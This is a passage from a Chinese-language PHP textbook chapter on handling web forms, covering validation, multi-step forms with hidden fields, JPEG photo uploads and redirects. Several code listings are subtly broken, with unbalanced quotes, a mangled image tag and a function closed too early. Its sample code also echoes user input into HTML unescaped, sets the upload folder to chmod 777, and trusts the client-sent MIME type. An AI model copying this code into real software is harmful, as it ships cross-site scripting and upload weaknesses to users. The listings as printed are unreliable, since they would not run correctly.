<option value="megaWidget"<?php setSelected( "favoriteWidget",
"megaWidget" ) ?>>The MegaWidget</option>
<option value="wonderWidget"<?php setSelected( "favoriteWidget",
"wonderWidget" ) ?>>The WonderWidget</option>
</select>

<label for="newsletter">Do you want to receive our newsletter?
</label>
<input type="checkbox" name="newsletter" id="newsletter" value="yes"
<?php setChecked( "newsletter", "yes" ) ?> />

<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4" cols="50"><?php
setValue( "comments" ) ?></textarea>

<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton" value=
"Send Details" />
<input type="reset" name="resetButton" id="resetButton"
value="Reset Form" style="margin-right: 20px;" />
</div>

</div>
</form>
<?php
}
?>
function displayThanks( ) {
?>
<h1>Thank You</h1>
<p>Thank you, your application has been received.</p>
<?php
}
?>
</body>
</html>
```

在 Web 浏览器中打开脚本的 URL。你将看到一个空白的注册表单。尝试点击“发送详细信息”提交一个空表单。你应该会看到一条错误消息，其中突出显示了缺少的必填字段。如果你填写了一些值并重新提交，脚本会继续检查你是否填写了必填字段。如果没有，它会重新显示表单，包括你已经输入的任何数据，并突出显示缺少的字段，如图 9-7 所示。

最后，尝试填写所有必填字段并再次点击“发送详细信息”。这一次，你应该会看到感谢消息。


图 9-7

## 工作原理

脚本以标准的 XHTML 页面页头开始。它包含一个用于红色错误框的额外 CSS 类：

```html
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; }
</style>
```

接下来，脚本检查表单是否已提交。它通过查找 submitButton 字段是否存在来实现。如果存在，表示已点击“发送详细信息”按钮并且表单已收到，脚本会调用 processForm() 函数来处理表单数据。但是，如果表单尚未显示，它会调用 displayForm() 来显示空白表单，并传入一个空数组（稍后将详细说明）：

```php
if ( isset( $_POST["submitButton"] ) ) {
    processForm();
} else {
    displayForm( array() );
}
```

接下来，脚本定义了一些辅助函数。validateField() 在表单中使用，如果必填字段未填写，则在表单字段标签周围显示一个红色错误框。它接收一个字段名，以及所有未填写的必填字段列表。如果字段名在列表中，它将显示错误框的标记：

```php
function validateField( $fieldName, $missingFields ) {
    if ( in_array( $fieldName, $missingFields ) ) {
        echo ' class="error"';
    }
}
```

setValue() 用于预填表单中的文本输入字段和文本区域字段。它期望接收一个字段名。然后它在 $_POST 超全局数组中查找该字段名，如果找到，则输出该字段的值：

```php
function setValue( $fieldName ) {
    if ( isset( $_POST[$fieldName] ) ) {
        echo $_POST[$fieldName];
    }
}
```

setChecked() 是通过将 checked 属性插入元素标签来预选复选框和单选按钮的。同样，setSelected() 是通过 selected 属性在下拉列表中预选一个选项的。这两个函数都会在 $_POST 数组中查找提供的字段名，如果找到该字段且其值与提供的字段值匹配，则预选该控件：

```php
function setChecked( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) && $_POST[$fieldName] == $fieldValue ) {
        echo ' checked="checked"';
    }
}
```

```php
function setSelected( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) && $_POST[$fieldName] == $fieldValue ) {
        echo ' selected="selected"';
    }
}
```

接下来是表单处理函数 processForm()。它设置一个必填字段名数组，并初始化一个数组来存放未填写的必填字段：

```php
function processForm() {
    $requiredFields = array( "firstName", "lastName", "password1", "password2",
                             "gender" );
    $missingFields = array();
}
```

现在，函数会遍历必填字段名，并在 `$_POST` 数组中查找每个字段名。如果字段名不存在，或存在但其值为空，则将该字段名添加到 `$missingFields` 数组中：

```php
foreach ( $requiredFields as $requiredField ) {
    if ( !isset( $_POST[$requiredField] ) or !$_POST[$requiredField] ) {
        $missingFields[] = $requiredField;
    }
}
```

如果发现了缺少的字段，函数会调用 `displayForm()` 来重新显示表单，并传入缺少的字段名数组，以便 `displayForm()` 可以突出显示相应的字段。否则，会调用 `displayThanks()` 来感谢用户：

```php
if ( $missingFields ) {
    displayForm( $missingFields );
} else {
    displayThanks();
}
```

`displayForm()` 函数本身向用户显示 HTML 表单。它期望接收一个包含所有缺少必填字段名的数组。如果该数组为空，则表单大概是第一次显示，因此 `displayForm()` 显示欢迎消息。但是，如果数组中有元素，则是因为有错误而重新显示表单，因此函数会显示相应的错误消息：

```php
function displayForm( $missingFields ) {
?>
<h1>Membership Form</h1>

<?php if ( $missingFields ) { ?>
<p class="error">There were some problems with the form you submitted.
Please complete the fields highlighted below and click Send Details to resend
the form.</p>
<?php } else { ?>
<p>Thanks for choosing to join The Widget Club. To register, please fill
in your details below and click Send Details. Fields marked with an asterisk
(*) are required.</p>
<?php } ?>
```

接下来，显示表单本身。表单使用 post 方法，其 `action` 属性指回脚本的 URL：

```html
<form action="registration.php" method="post">
```

然后，使用 HTML 标记创建每个表单控件。请注意，`validateField()`、`setValue()`、`setChecked()` 和 `setSelected()` 函数在标记中被调用，以便向元素插入适当的属性。

对于密码字段，在页面中重新显示用户的密码是不明智的，因为查看 HTML 源代码就可以轻松读取密码。因此，这两个密码字段始终


重新显示为空白。脚本会检查表单是否因缺少必填字段值而重新显示；如果是，密码字段标签会以红色错误框高亮显示，以提醒用户重新输入密码：

```php
<label for="password1"<?php if ( $missingFields ) echo ' class="error" ?>>Choose a password *</label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2"<?php if ( $missingFields ) echo ' class="error" ?>>Retype password *</label>
<input type="password" name="password2" id="password2" value="" />
```

最后，脚本定义了 displayThanks() 函数。当表单填写正确时，这将显示一条简单的感谢消息：

```php
function displayThanks() {
?>
 <h1>Thank You</h1>
 <p>Thank you, your application has been received.</p>
 <?php
}
?>
```

通过这个示例，你可以看到，通过在 PHP 脚本中嵌入 HTML 表单，你可以开始开发相当复杂的交互式 Web 表单。

## 在表单中存储 PHP 变量

在本章前面，你已经了解了隐藏字段。隐藏字段是一种特殊的输入元素，可以存储和发送字符串值，就像普通文本输入控件一样。但是，隐藏字段在页面上不显示（尽管其值可以通过查看页面源代码来看到），因此用户在填写表单时无法更改其值。通过将隐藏字段与 PHP 将数据动态插入表单字段的功能相结合，你实际上可以在一个浏览器请求和下一个请求之间存储数据：

```php
<input type="hidden" name="selectedWidget" value="<?php echo $selectedWidget ?>" />
```

虽然用户在正常使用浏览器时无法更改隐藏字段的值，但攻击者很容易提交包含修改后值的隐藏字段的表单。因此，使用隐藏字段传输敏感或关键信息（例如用户 ID 或订单号）不是个好主意，至少在脚本中执行额外验证以确保所提供的数据正确之前不应这样做。

## 尝试创建多步表单

你可以使用隐藏字段创建一系列表单，引导用户逐步完成数据输入过程。在每个表单中，你可以存储当前步骤——以便脚本知道用户已达到哪个阶段——以及用户在其他步骤中已输入的数据。

下面是一个将之前的 `registration.php` 表单拆分为三个步骤的示例：

- 名/姓
- 性别/喜欢的小部件
- 新闻通讯偏好/评论

将以下脚本保存为 `registration_multistep.php` 到你的文档根目录，并在 Web 浏览器中运行该脚本。尝试填写一些字段值，并使用后退和下一步按钮在三个步骤之间跳转。注意当你返回之前完成的步骤时，字段值是如何被保留的。图 9-8 显示了表单的第一步，图 9-9 显示了第二步。

为了简单起见，这个脚本不以 `registration.php` 的方式验证任何表单字段。但是，你可以轻松使用 `registration.php` 中的相同技术来验证表单提交时的每个步骤。

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Membership Form</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<?php

if ( isset( $_POST["step"] ) and $_POST["step"] >= 1 and $_POST["step"] <= 3 ) {
call_user_func( "processStep" . (int)$_POST["step"] );
} else {
displayStep1();
}

function setValue( $fieldName ) {
if ( isset( $_POST[$fieldName] ) ) {
echo $_POST[$fieldName];
}
}
```

```php
function setChecked( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
        echo ' checked="checked"';
    }
}
```

```php
function setSelected( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
        echo ' selected="selected"';
    }
}
```

```php
function processStep1() {
    displayStep2();
}
```

```php
function processStep2() {
    if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] == "< Back" ) {
        displayStep1();
    } else {
        displayStep3();
    }
}
```

```php
function processStep3() {
    if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] == "< Back" ) {
        displayStep2();
    } else {
        displayThanks();
    }
}
```

```php
function displayStep1() {
?>
<h1>Member Signup: Step 1</h1>
<form action="registration_multistep.php" method="post">
<div style="width: 30em;">
    <input type="hidden" name="step" value="1" />
    <input type="hidden" name="gender" value="<?php setValue( "gender" ) ?>"/>
    <input type="hidden" name="favoriteWidget" value="<?php setValue( "favoriteWidget" ) ?>"/>
    <input type="hidden" name="newsletter" value="<?php setValue( "newsletter" ) ?>"/>
    <input type="hidden" name="comments" value="<?php setValue( "comments" ) ?>"/>

    <label for="firstName">First name</label>
    <input type="text" name="firstName" id="firstName" value="<?php setValue( "firstName" ) ?>"/>
    <label for="lastName">Last name</label>
    <input type="text" name="lastName" id="lastName" value="<?php setValue( "lastName" ) ?>" />

    <div style="clear: both;">
        <input type="submit" name="submitButton" id="nextButton" value="Next &gt;" />
    </div>
</div>
</form>
<?php
}
```

```php
function displayStep2() {
?>

<h1>Member Signup: Step 2</h1>

<form action="registration_multistep.php" method="post">
    <div style="width: 30em;">
        <input type="hidden" name="step" value="2" />
        <input type="hidden" name="firstName" value="<?php setValue( "firstName" )?>" />
        <input type="hidden" name="lastName" value="<?php setValue( "lastName" )?>" />
        <input type="hidden" name="newsletter" value="<?php setValue( "newsletter" )?>" />
        <input type="hidden" name="comments" value="<?php setValue( "comments" )?>" />

        <label>Your gender:</label>
        <label for="genderMale">Male</label>
        <input type="radio" name="gender" id="genderMale" value="M"<?php setChecked( "gender", "M" )?> />
        <label for="genderFemale">Female</label>
        <input type="radio" name="gender" id="genderFemale" value="F"<?php setChecked( "gender", "F" )?> />

        <label for="favoriteWidget">What's your favorite widget?</label>
        <select name="favoriteWidget" id="favoriteWidget" size="1">
            <option value="superWidget"<?php setSelected( "favoriteWidget", "superWidget" )?>>The SuperWidget</option>
            <option value="megaWidget"<?php setSelected( "favoriteWidget", "megaWidget" )?>>The MegaWidget</option>
            <option value="wonderWidget"<?php setSelected( "favoriteWidget", "wonderWidget" )?>>The WonderWidget</option>
        </select>

        <div style="clear: both;">
            <input type="submit" name="submitButton" id="nextButton" value="Next &gt;" />
            <input type="submit" name="submitButton" id="backButton" value="&lt; Back" style="margin-right: 20px;" />
        </div>
    </div>
</form>
<?php
}
```

```php
function displayStep3() {
?>
<h1>Member Signup: Step 3</h1>
<form action="registration_multistep.php" method="post">
<div style="width: 30em;">
<input type="hidden" name="step" value="3" />
<input type="hidden" name="firstName" value="<?php setValue( "firstName" ) ?> />
<input type="hidden" name="lastName" value="<?php setValue( "lastName" ) ?> />
<input type="hidden" name="gender" value="<?php setValue( "gender" ) ?> />
<input type="hidden" name="favoriteWidget" value="<?php setValue( "favoriteWidget" ) ?>" />
<label for="newsletter">Do you want to receive our newsletter?
</label>
<input type="checkbox" name="newsletter" id="newsletter" value="yes"<?php setChecked( "newsletter", "yes" ) ?> />
<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4" cols="50">
<?php setValue( "comments" ) ?> </textarea>
<div style="clear: both;">
<input type="submit" name="submitButton" id="nextButton" value="Next &gt;" />
<input type="submit" name="submitButton" id="backButton" value="&lt; Back" style="margin-right: 20px;" />
</div>
</div>
</form>
<?php
}

function displayThanks() {
?>
<h1>Thank You</h1>
<p>Thank you, your application has been received.</p>
<?php
}
?>
</body>
</html>


图 9-8


图 9-9

## 工作原理

在注册流程的每个步骤中，脚本都会显示一个带有隐藏字段 step 的表单，以跟踪当前步骤。例如：

```
<input type="hidden" name="step" value="1" />
```

脚本首先检查提交的表单数据中是否存在该字段。如果存在，且其值有效（介于 1 和 3 之间），脚本会使用 PHP 的 call_user_func() 函数来调用相应的处理函数 — processStep1()、processStep2() 或 processStep3()。如果未提交 step 字段（或其值无效），脚本会假设用户刚刚开始注册流程，并显示第一步的表单：

```
if ( isset( $_POST["step"] ) and $_POST["step"] >= 1 and $_POST["step"] <= 3 ) {
    call_user_func( "processStep" . (int)$_POST["step"] );
} else {
    displayStep1();
}
```

接下来的三个函数 — setValue()、setChecked() 和 setSelected() — 与 registration.php 中的对应函数相同。

接下来是用于处理每个步骤提交的表单的三个函数。processStep1() 只是显示步骤 2：

```
function processStep1() {
    displayStep2();
}
```

processStep2() 检查用户是否单击了“后退”按钮。如果单击了，则重新显示步骤 1；否则，假设用户单击了“下一步”按钮，因此显示步骤 3：

```
function processStep2() {
    if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] ==
"< Back" ) {
        displayStep1();
    } else {
        displayStep3();
    }
}
```

同样，processStep3() 在单击“后退”按钮时显示步骤 2，在单击“下一步”按钮时显示感谢页面：

```
function processStep3() {
    if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] ==
"< Back" ) {
        displayStep2();
    } else {
        displayThanks();
    }
}
```

剩下的四个函数 — displayStep1()、displayStep2()、displayStep3() 和 displayThanks() — 用于显示注册流程中每个步骤的表单，以及最终的感谢页面。请注意，每个步骤函数都包含整个注册流程的所有表单字段；当前步骤的字段正常显示，而另外两个步骤的字段显示为隐藏字段。例如，displayStep2() 输出隐藏字段以存储 firstName、lastName、newsletter 和 comments 的值，同时显示当前步骤的字段（gender 和 favoriteWidget）：

```
<input type="hidden" name="step" value="2" />
<input type="hidden" name="firstName" value="<?php setValue( "firstName" ) ?>" />
<input type="hidden" name="lastName" value="<?php setValue( "lastName" ) ?>" />
<input type="hidden" name="newsletter" value="<?php setValue( "newsletter" ) ?>" />
<input type="hidden" name="comments" value="<?php setValue( "comments" ) ?>" />
<label>Your gender:</label>
<label for="genderMale">Male</label>
<input type="radio" name="gender" id="genderMale" value="M"<?php setChecked( "gender", "M" ) ?>/>
<label for="genderFemale">Female</label>
<input type="radio" name="gender" id="genderFemale" value="F"<?php setChecked( "gender", "F" ) ?>/>
<label for="favoriteWidget">What's your favorite widget?</label>
<select name="favoriteWidget" id="favoriteWidget" size="1">
<option value="superWidget"<?php setSelected( "favoriteWidget", "superWidget" ) ?>>The SuperWidget</option>
<option value="megaWidget"<?php setSelected( "favoriteWidget", "megaWidget" ) ?>>The MegaWidget</option>
<option value="wonderWidget"<?php setSelected( "favoriteWidget", "wonderWidget" ) ?>>The WonderWidget</option>
</select>
```

通过在每个步骤中包含（并填充）所有字段（无论是可见的还是隐藏的），脚本确保每次提交表单时都会将整个注册数据发送回服务器，从而使数据可以在三个步骤之间传递。

步骤 2 和 3 还包含“后退”和“下一步”按钮，而步骤 1 仅包含“下一步”按钮。最后，displayThanks() 只是向用户显示感谢消息。

## 第三部分：在实践中使用 PHP

### 创建文件上传表单

除了向服务器发送文本数据外，Web 表单还可用于将文件上传到服务器。如果您使用过 Yahoo! 邮箱或 Gmail 等基于 Web 的电子邮件服务，那么您很可能发送过带有附件的电子邮件。要添加附件，您通常单击网页中的“浏览”按钮以选择计算机上的文件。然后，当您提交表单时，您的浏览器会将文件连同其他表单数据一起发送到服务器。

您已经在本章开头了解了如何创建文件选择字段：

```html
<label for="fileSelectField">A file select field</label>
<input type="file" name="fileSelectField" id="fileSelectField" value="" />
```

此外，包含文件选择字段的表单必须使用 post 方法，并且其 `<form>` 标签中必须包含 `enctype="multipart/form-data"` 属性，如下所示：

```html
<form action="form_handler.php" method="post" enctype="multipart/form-data">
```

此属性确保表单数据被编码为 multipart MIME 数据 — 即电子邮件消息中用于编码文件附件的相同格式 — 这是上传文件等二进制数据所必需的。

*您可以在表单中包含任意数量的文件选择字段，从而允许用户一次上传多个文件。*

### 访问上传文件的信息

表单数据到达服务器后，PHP 引擎会识别表单中包含上传的文件或文件，并创建一个名为 `$_FILES` 的超全局数组，其中包含有关文件或文件的各种信息。每个文件都由 `$_FILES` 数组中的一个元素描述，该元素以用于上传文件的字段名为键。

例如，假设您的表单包含名为 `photo` 的文件选择字段：

```html
<input type="file" name="photo" value="" />
```

如果用户使用此字段上传了文件，则可以通过以下 PHP 数组元素访问其详细信息：

```php
$_FILES["photo"]
```

此数组元素本身是一个关联数组，包含有关文件的信息。例如，您可以这样查找上传文件的文件名：

```php
$filename = $_FILES["photo"]["name"];
```

以下是 `$_FILES` 数组中每个嵌套数组所存储元素的完整列表：

| 数组元素 | 说明 |
|---|---|
| name | 上传文件的文件名。 |
| type | 上传文件的 MIME 类型。例如，JPEG 图像的 MIME 类型可能为 `image/jpeg`，而 QuickTime 电影文件的 MIME 类型可能为 `video/quicktime`。 |
| size | 上传文件的大小（以字节为单位）。 |
| tmp_name | 服务器上包含上传文件的临时文件的完整路径。（所有上传的文件在被需要之前都存储为临时文件。） |
| error | 与文件上传关联的错误或状态码。 |

`error` 元素包含一个整数值，该值对应一个内置常量，用于说明上传文件的状态。可能的值包括：

| 常量 | 值 | 含义 |
|---|---|---|
| UPLOAD_ERR_OK | 0 | 文件上传成功。 |
| UPLOAD_ERR_INI_SIZE | 1 | 文件大小超过了 `php.ini` 文件中 `upload_max_filesize` 指令指定的允许文件大小。 |
| UPLOAD_ERR_FORM_SIZE | 2 | 文件大小超过了表单中 `MAX_FILE_SIZE` 指令指定的允许文件大小。 |
| UPLOAD_ERR_NO_FILE | 4 | 未上传文件。 |
| UPLOAD_ERR_NO_TMP_DIR | 6 | PHP 无法访问服务器上的临时文件夹来存储文件。 |
| UPLOAD_ERR_CANT_WRITE | 7 | 出于某些原因，文件无法写入服务器硬盘。 |
| UPLOAD_ERR_EXTENSION | 8 | 文件上传被当前加载的某个 PHP 扩展中断。 |

这些错误代码中的大部分都不言自明。`UPLOAD_ERR_INI_SIZE` 和 `UPLOAD_ERR_FORM_SIZE` 在下一节中有所解释。

## 限制文件上传大小

通常最好防止将异常大的文件发送到服务器。除了占用服务器的带宽和硬盘空间外，大文件还可能导致 PHP 脚本使服务器 CPU 过载。例如，如果您的 PHP 脚本旨在处理上传的 10KB 文本文件，那么上传 100MB 的文本文件可能会导致脚本出现一些问题。


PHP 允许你通过多种方式限制上传文件的大小。首先，如果你有权访问 php.ini 文件，可以在文件中添加或编辑名为 upload_max_filesize 的指令：

```
; Maximum allowed size for uploaded files.
upload_max_filesize = 32M
```

然后，如果用户尝试上传大于此值（本例中为 32 兆字节）的文件，文件上传将被取消，相应的错误数组元素将设置为 UPLOAD_ERR_INI_SIZE。

有关编辑 php.ini 文件的更多信息，请参阅附录 B。

如果你无权访问服务器的 php.ini 文件，可以添加一个名为 MAX_FILE_SIZE 的隐藏表单字段，用于指定上传文件的最大允许大小（以字节为单位）。该字段应放置在文件上传字段之前：

```
<input type="hidden" name="MAX_FILE_SIZE" value="10000" />
<input type="file" name="fileSelectField" id="fileSelectField" value="" />
```

如果上传的文件大于此值，上传将被取消，相应的错误数组元素将设置为 UPLOAD_ERR_FORM_SIZE。理论上，浏览器也可以查看表单中的 MAX_FILE_SIZE 字段，从一开始就阻止用户上传大于该值的文件。但实际上，几乎没有浏览器支持这种技术。

攻击者也很容易修改你的 Web 表单并更改 MAX_FILE_SIZE 隐藏字段的值（甚至直接删除该字段）。因此，如果可能，最好使用 upload_max_filesize 来限制文件上传。

当然，你也可以手动检查上传文件的大小，如果太大则拒绝它：

```
if ( $_FILES["photo"]["size"] > 10000 ) die( "File too big!" );
```

## 存储和使用上传的文件

文件成功上传后，会自动存储在服务器的临时文件夹中。要使用该文件或将其更永久地存储，需要将其移出临时文件夹。为此，需使用 PHP 的 move_uploaded_file() 函数，该函数接受两个参数：要移动的文件路径和移动的目标路径。可以使用 $_FILES 数组中嵌套数组的 tmp_name 数组元素来确定文件的当前路径。如果文件移动成功，move_uploaded_file() 返回 true；如果出错（例如文件路径不正确），则返回 false。示例如下：

```
if ( move_uploaded_file( $_FILES["photo"]["tmp_name"], "/home/matt/photos/photo.jpg" ) ) {
 echo "Your file was successfully uploaded.";
} else {
 echo "There was a problem uploading your file - please try again.";
}
```

## 尝试创建文件上传脚本

你现在具备创建文件上传表单和能够处理这些表单的 PHP 脚本所需的所有知识。在本示例中，你将创建一个显示表单的脚本，允许用户上传 JPEG 照片，随后在页面中显示该照片。

首先，将以下脚本保存为 photo_upload.php 到你的文档根目录文件夹中：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Uploading a Photo</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<?php
if ( isset( $_POST["sendPhoto"] ) ) {
processForm();
} else {
displayForm();
}

function processForm() {
if ( isset( $_FILES["photo"] ) and $_FILES["photo"]["error"] == UPLOAD_ERR_OK ) {
if ( $_FILES["photo"]["type"] != "image/jpeg" ) {
echo "<p>JPEG photos only, thanks!</p>";
} elseif ( !move_uploaded_file( $_FILES["photo"]["tmp_name"], "photos/" . basename( $_FILES["photo"]["name"] ) ) {
echo "<p>Sorry, there was a problem uploading that photo.</p>" .
$_FILES["photo"]["error"] ;
} else {
displayThanks();
}
} else {
switch( $_FILES["photo"]["error"] ) {
case UPLOAD_ERR_INI_SIZE:
$message = "The photo is larger than the server allows.";
break;
case UPLOAD_ERR_FORM_SIZE:
$message = "The photo is larger than the script allows.";
break;
case UPLOAD_ERR_NO_FILE:
$message = "No file was uploaded. Make sure you choose a file to upload.";
break;
default:
$message = "Please contact your server administrator for help.";
}
echo "<p>Sorry, there was a problem uploading that photo. $message</p>";
}
}
function displayForm() {
?>
	<h1>Uploading a Photo</h1>

	<p>Please enter your name and choose a photo to upload, then click Send Photo.</p>

	<form action="photo_upload.php" method="post" enctype="multipart/form-data">
		<div style="width: 30em;">
			<input type="hidden" name="MAX_FILE_SIZE" value="50000" />

			<label for="visitorName">Your name</label>
			<input type="text" name="visitorName" id="visitorName" value="" />

			<label for="photo">Your photo</label>
			<input type="file" name="photo" id="photo" value="" />

			<div style="clear: both;">
				<input type="submit" name="sendPhoto" value="Send Photo" />
			</div>
		</div>
	</form>
<?php
}

function displayThanks() {
?>
	<h1>Thank You</h1>
	<p>Thanks for uploading your photo<?php if ( $_POST["visitorName"] ) echo ", " . $_POST["visitorName"] ?>!</p>
	<p>Here's your photo:</p>
	<p>" alt="Photo" /></p>
<?php
}
?>
</body>
</html>
```

接下来，在 Web 服务器上的同一文件夹（即文档根目录）中创建一个 photos 文件夹。此文件夹用于存储上传的照片。你需要授予 Web 服务器用户在此文件夹中创建文件的权限。在 Linux 或 Mac OS X 上，可以在终端窗口中按以下方式操作：

```
cd /path/to/document/root
chmod 777 photos
```

## 第三部分：在实践中使用 PHP

在 Windows 上，可以使用 Windows 资源管理器为 `photos` 文件夹设置权限。

现在尝试在浏览器中运行该脚本。你应该会看到图 9-10 所示的表单。输入你的姓名并选择要上传的 JPEG 照片，然后点击 Send Photo。你应该会看到感谢消息及你上传的照片出现，如图 9-11 所示。


### 图 9-10


### 图 9-11

## 工作原理

脚本首先会检查表单是否已提交，方法是查找 sendPhoto 提交按钮字段是否存在。如果表单已提交，则调用 processForm() 来处理表单；否则，使用 displayForm() 显示表单：

```
if ( isset( $_POST["sendPhoto"] ) ) {
	processForm();
} else {
	displayForm();
}
```

processForm() 处理上传的文件（如果有）。首先，它会检查是否上传了文件，并且上传过程没有错误：

```
if ( isset( $_FILES["photo"] ) and $_FILES["photo"]["error"] == UPLOAD_ERR_OK ) {
```

如果上传的文件不是 JPEG 照片，函数会拒绝它：

```
if ( $_FILES["photo"]["type"] != "image/jpeg" ) {
	echo "<p>JPEG photos only, thanks!</p>";
}
```

然后，该函数会尝试将上传的文件从临时文件夹移动到 photos 文件夹，如果出现问题则显示错误消息。如果一切顺利，将显示感谢页面：

```
} elseif ( !move_uploaded_file( $_FILES["photo"]["tmp_name"], "photos/" . basename( $_FILES["photo"]["name"] ) ) ) {
	echo "<p>Sorry, there was a problem uploading that photo.</p>";
} else {
	displayThanks();
}
```

请注意 PHP basename() 函数的用法。它接受文件路径并仅提取路径中的文件名部分。某些浏览器上传文件时会发送完整路径而不仅仅是文件名，因此脚本使用 basename() 确保 photos 文件夹中的文件仅使用文件名部分。此外，这还可以防止攻击者将恶意字符（例如 "../"）插入文件名。

如果没有上传照片，或者 PHP 在 $_FILES 数组中报告了错误，该函数也会显示错误消息：

```
} else {
	switch( $_FILES["photo"]["error"] ) {
	case UPLOAD_ERR_INI_SIZE:
		$message = "The photo is larger than the server allows.";
		break;
	case UPLOAD_ERR_FORM_SIZE:
		$message = "The photo is larger than the script allows.";
		break;
```


```
case UPLOAD_ERR_NO_FILE:
    $message = "No file was uploaded. Make sure you choose a file to
    upload.";
    break;
    default:
    $message = "Please contact your server administrator for help.";
    }
    echo "<p>Sorry, there was a problem uploading that photo. $message</p>";
}
```

displayForm() 函数仅显示文件上传表单，其中包含访客姓名的文本字段和文件选择字段，以允许上传文件。最后，displayThanks() 函数感谢用户，显示用户姓名（如果提供）及其照片。

## 表单提交后的重定向

在离开 PHP 表单处理话题之前，值得一提 URL 重定向的概念。虽然与表单没有直接关系，但 URL 重定向经常用于表单处理代码中。

通常，当你运行 PHP 脚本时——无论是输入其 URL、点击链接还是提交表单——脚本都会执行其操作，以网页形式显示某种响应，然后退出。

但是，通过从 PHP 脚本向浏览器发送特殊的 HTTP 头，你可以在脚本运行后使浏览器跳转到新 URL。这通常用于表单处理脚本中，在用户提交表单后将其重定向到感谢页面。这意味着你可以将感谢页面与 PHP 脚本分开保存，从而使页面更易于编辑和更新。

在表单提交后重定向到新 URL 的另一个好处是，它可以防止用户通过单击浏览器的“重新加载”或“刷新”按钮意外重新提交表单。相反，发生的只是他们重新加载被重定向到的页面。

重定向非常简单，只需输出一个 `Location:` HTTP 头，其中包含你要重定向到的 URL。在 PHP 中，你使用内置的 `header()` 函数输出 HTTP 头。因此，以下是如何重定向到名为 `thanks.html` 的页面：

```
header ( "Location: thanks.html" );
```

唯一需要注意的是，在调用 `header()` 之前，不要向浏览器输出任何内容——无论是通过 `echo()` 或 `print()`，还是通过在 `<?php ... ?>` 标签外包含 HTML 标记。这是因为一旦你向浏览器发送内容，PHP 引擎就会自动发送默认 HTTP 头——这些头不会包含你的 `Location:` 头——而且每个请求只能发送一次头。

下面是一个重定向到感谢页面的表单处理脚本快速示例：

```
<?php
if ( isset( $_POST["submitButton"] ) ) {
    // (deal with the submitted fields here)
    header( "Location: thanks.html" );
    exit;
} else {
    displayForm();
}

function displayForm() {
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Membership Form</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Membership Form</h1>

<form action="form_handler_redirect.php" method="post">
    <div style="width: 30em;">
        <label for="firstName">First name</label>
        <input type="text" name="firstName" id="firstName" value="" />
        <label for="lastName">Last name</label>
        <input type="text" name="lastName" id="lastName" value="" />
        <div style="clear: both;">
        <input type="submit" name="submitButton" id="submitButton" value=
"Send Details" />
        </div>
    </div>
</form>
</body>
</html>
<?php
}
?>
```

请注意，脚本在调用 header() 函数或显示会员表单之前，不会向浏览器输出任何内容。另请注意，脚本在调用 header() 后使用 exit 语句终止，以避免向浏览器发送任何进一步的输出。

## 总结

本章向你展示了如何在 PHP 脚本中处理 Web 表单。你学习了：

- 如何创建 Web 表单，包括可以放置在表单中的所有不同类型的控件
- 关于 `$_GET`、`$_POST` 和 `$_REQUEST` 超全局变量的所有内容，以及脚本如何使用它们来捕获用户发送的表单数据
- 围绕 Web 表单的一些安全问题，以及如何缓解这些问题
- 如何处理空表单字段
- 如何使 PHP 引擎识别多值字段，以及如何读取这些字段发送的数据
- 如何在 PHP 脚本中生成 Web 表单。这样你就可以为表单添加更多交互性和灵活性。你已经完成了创建此类交互式表单的示例
- 隐藏表单字段的概念，以及如何使用它们在页面请求之间存储数据。你使用这种技术创建了一个三阶段注册表单
- 如何处理通过 Web 表单上传的文件，包括使用 `$_FILES` 超全局变量来读取上传文件的信息
- 如何在表单提交后重定向浏览器，以显示感谢页面并避免页面重新加载问题

HTML 表单是为 Web 应用程序添加交互性的绝佳方式。你可以使用在本章学到的技能来制作各种交互式 Web 表单，从联系表单和注册脚本到登录表单、网上商店结账表单以及“告诉朋友”功能。

在下一章中，你将学习如何在页面请求之间存储应用程序数据，这意味着你的 PHP 应用程序的生命周期可以长于单个页面查看。与此同时，尝试以下两个练习来测试你的表单处理知识。你可以在附录 A 中找到这些练习的解答。

## 练习

- 1. 在 PHP 中编写一个简单的猜数字游戏。脚本应“想到”一个 1 到 100 之间的随机数，然后给用户五次机会来猜这个数字。对于每次猜测，脚本都应报告猜测的数字是太小、太大还是正确。（提示：使用 `rand( 1, 100 )` 生成 1 到 100 之间的随机数。）
- 2. 创建一个显示表单的脚本，允许用户选择三个 Amazon 商店之一——amazon.com、amazon.ca 和 amazon.co.uk——然后根据用户的选择跳转到相应的商店。

## 使用查询字符串、Cookie 和会话保持状态

你在前几章中创建的大多数 PHP 脚本都是一次性的。每次运行时，它们都从变量和其他数据的“一张白纸”开始。这是因为浏览器向 Web 服务器发出的每个请求都与之前的任何请求独立。当 Web 服务器收到运行 PHP 脚本的请求时，它会将脚本加载到内存中，运行它，然后从内存中删除其所有痕迹。

